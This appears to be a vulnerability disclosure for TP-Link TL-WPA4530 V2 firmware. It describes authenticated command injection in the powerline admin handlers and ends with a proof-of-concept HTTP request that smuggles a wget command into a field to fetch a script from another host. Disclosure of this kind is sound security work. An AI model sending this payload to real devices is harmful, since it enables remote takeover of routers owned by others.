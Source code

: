 # TP-Link TL-WPA4530 V2 Vulnerability

Several command injection vulnerabilities are found in the latest version of TL-WPA4530 V2 firmware

## Vulnerability Description

* Reference Firmware: [URL](https://static.tp-link.com/TL-WPA4530%20KIT(EU)_V2_170406.zip)
* Binary Path: /usr/bin/httpd
* Entry Url: /admin/powerline
* Affected Versions
  * [TL-WPA4530 V2 (EU)_170406](https://static.tp-link.com/TL-WPA4530%20KIT(EU)_V2_170406.zip)
  * [TL-WPA4530 V2 (EU)_161115](https://static.tp-link.com/TL-WPA4530(EU)_V2_161115.zip)

There is a command injection vulnerability in function `_httpRpmPlcDeviceAdd` and `_httpRpmPlcDeviceRemove`. After authentication, an attacker can set `devicePwd` or `key` field in requests to launch a remote-code-execution attack.

![devicePwd](devicePwd-vuln.png)

![devicePwd](key-vuln.png)

## PoC

PoC for triggering `_httpRpmPlcDeviceAdd`

```
POST /admin/powerline?form=plc_add HTTP/1.1
Host: 192.168.100.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Origin: http://192.168.100.2
Connection: close
Referer: http://192.168.100.2/
Cookie: Authorization=XXXXXXX

xxxxxxxxxxxxxxxxxxxxxxxxxx;wget http://192.168.100.254:8000/net.sh;
```
